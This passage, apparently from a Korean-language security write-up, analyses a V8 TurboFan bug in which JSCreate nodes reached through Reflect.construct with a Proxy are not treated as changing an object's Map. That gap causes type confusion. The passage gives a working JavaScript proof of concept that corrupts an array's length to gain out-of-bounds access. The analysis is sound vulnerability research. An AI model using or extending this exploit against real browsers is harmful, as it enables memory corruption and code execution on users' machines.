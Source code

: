 ```cpp
          result = kUnreliableMaps;
        }
        break;
      }
    }
```

effect chain을 순회할 때 `MapGuard` 혹은 `CheckMaps`노드를 만나게 되면[3] 현재 결과를 반환하게됩니다. (Map이 Gaurd/Check되었으므로 신뢰할 수 있는 것으로 보장됩니다.) 만약 Map을 수정할 수 있는 Side Effect가 발생할 수 있는 노드(예를 들어 `kNoWrite` 플래그가 설정되어 있지 않은 경우[4])라면 해당 Map은 신뢰할 수 없는 것으로 표시됩니다.

하지만 Map의 source가 아닌 `JSCreate`노드를 만나게 되면 Map이 신뢰할 수 없는 것으로 표시되지 않지만[5], `JSCreate`는 Object의 Map을 변경할 수 있는 Side Effect가 발생할 수 있습니다.

`Reflect.construct()`에 세 번째 인자로 `Proxy`를 전달하면 inlining 단계에서 `JSCallReducer::ReduceReflectConstruct`에서 `JSCreate` 노드로 수행될 수 있습니다. 따라서 Object의 Map이 수정된 후에는 확인되지 않으므로 Type Confusion 및 Heap Curruption이 발생합니다.

-PoC-

```jsx
ITERATIONS = 0x1000;

let a = [0.1, , , , , , , , , , , , , , , 0.2, 0.3, 0.4];
let oob_arr = undefined;  // array for OOB
a.pop();
a.pop();
a.pop();
function empty() { }
function f(p) {
    a.push(Reflect.construct(empty, arguments, p) ? 3.2378e-319 : 3.2378e-319);
    for (let i = 0; i < ITERATIONS; i++) { }
}
let p = new Proxy(Object, {
    get: () => {
        a[1] = {};
        oob_arr = [1.1];
        return Object.prototype;
    }
});
function main(p) {
    f(p);
    for (let i = 0; i < ITERATIONS; i++) { }
}
for (let i = 0; i < ITERATIONS; i++) { main(empty); a.pop(); }
main(empty);
main(empty);
main(p);
print('[+] Length of oob_arr: 0x' + oob_arr.length.toString(16));
```

초기 OOB write를 달성하기 위해 `f`의 `Array.push()` 호출 안에 중첩하여 `Reflect.construct()`를 호출합니다. 삼항 연산자는 사용자가 제어하는 값을 push하여 length 필드를 덮어쓰게 합니다.
